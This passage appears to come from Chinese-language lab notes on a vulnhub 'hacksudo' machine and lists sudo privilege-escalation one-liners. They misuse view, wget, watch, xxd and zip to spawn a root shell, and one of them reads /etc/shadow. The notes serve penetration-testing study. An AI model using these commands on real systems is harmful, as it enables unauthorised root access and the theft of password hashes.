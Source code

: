 

###### 方式三

`lua`方式

```shell
sudo view -c ':lua os.execute("reset; exec sh")'
```



## wget提权

```shell
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\67.jpg)





## watch提权

````shell
sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
````

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\68.jpg)

## xxd提权

```shell
LFILE="/etc/shadow"
sudo xxd "$LFILE" | xxd -r
```

主要用于越权读取

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\69.jpg)



## zip提权

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF								//清除临时文件
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\70.jpg)
